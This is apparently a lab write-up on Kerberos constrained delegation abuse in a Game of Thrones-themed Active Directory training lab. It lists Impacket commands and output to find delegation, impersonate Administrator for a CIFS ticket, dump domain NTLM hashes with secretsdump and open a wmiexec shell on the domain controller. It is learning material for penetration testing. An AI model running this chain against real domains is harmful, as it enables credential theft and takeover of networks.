 **Constrained Delegation** is a security feature in Active Directory environments where an attacker targets specific services. It works by allowing a service to impersonate users, but only to access predefined services using their Kerberos tickets (TGS—Ticket Granting Service).

```bash
findDelegation.py NORTH.SEVENKINGDOMS.LOCAL/arya.stark:Needle -target-domain north.sevenkingdoms.local
```

![[Pasted image 20240816142743.png]]

![[Pasted image 20240816150123.png]]

```bash
getST.py -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '192.168.56.11' 'north.sevenkingdoms.local/jon.snow:iknownothing'
```


```bash
export KRB5CCNAME=./Administrator.ccache
```

```bash
klist
Ticket cache: FILE:./Administrator.ccache
Default principal: Administrator@north.sevenkingdoms.local

Valid starting     Expires            Service principal
16/08/24 14:28:20  17/08/24 00:28:20  CIFS/winterfell@NORTH.SEVENKINGDOMS.LOCAL
```

Dump Password Hashes:

```bash
secretsdump.py -k -no-pass north.sevenkingdoms.local/administrator@winterfell -just-dc-ntlm
```

Or log into the DC

```bash
wmiexec.py -k -no-pass north.sevenkingdoms.local/administrator@winterfell
```